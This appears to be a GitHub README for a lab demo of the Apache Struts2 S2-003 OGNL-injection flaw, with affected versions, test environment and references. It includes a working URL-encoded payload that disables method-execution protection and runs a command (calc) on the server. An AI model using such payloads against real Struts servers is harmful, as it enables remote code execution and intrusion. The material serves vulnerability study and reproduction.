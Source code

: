 # S2-003 Demo

## Summary

Impact of vulnerability: Remote server context manipulation

Affected Software: `Struts 2.0.0` - `Struts 2.1.8.1`

Problem: `XWork` bypass allows `OGNL` statement execution

## Environment

Struts2 Version: `struts-2.0.11.2-all`

Server: `Tomcat 6.0.9` (I only run payload successful in this version).

IDE: `idea 2020.1.1 ULTIMATE`

(Maybe you should do this.) Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

## POC

![{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417]({15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417.jpg)

## payload

`?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)`

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-003](https://cwiki.apache.org/confluence/display/WW/S2-003)